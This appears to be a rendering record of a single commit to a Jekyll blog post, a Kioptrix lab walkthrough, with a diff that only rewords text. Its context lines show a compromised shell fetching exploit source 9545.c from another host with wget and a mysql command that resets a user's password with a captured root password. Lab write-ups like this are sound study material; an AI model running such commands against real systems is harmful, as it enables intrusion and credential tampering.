

Before and after one commit to holstrater/holstrater.github.io, a Jekyll site: the page built from _posts/2020-04-28-kioptrix11.md, in a window 1280 px wide and 900 px high, scrolled down 8114 px. Shown: the part 140-454 px from the top of the window, without its empty margins (0-998 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
second post attempt

````diff
--- a/_posts/2020-04-28-kioptrix11.md
+++ b/_posts/2020-04-28-kioptrix11.md
@@ -122,7 +122,7 @@ After seemingly running out of exploits to run, I decided to give the original l
 ```sh
 sh-3.00$ wget http://192.168.56.102:7777/9545.c
 --14:21:24--  http://192.168.56.102:7777/9545.c
-           => '9545.c'
+           =>  '9545.c'
 Connecting to 192.168.56.102:7777... connected.
 HTTP request sent, awaiting response... 200 OK
 Length: 9,783 (9.6K) [text/plain]
@@ -211,7 +211,7 @@ test
 webapp
 ```
 
-With root access you can easily change current credentials, add new ones, etc.:
+With root access I could easily change current credentials, add new ones, etc.:
 
 ```sh
 sh-3.00$ mysql -uroot -phiroshima -e "use mysql; update user set password = password('test123') where user = 'john';"
````
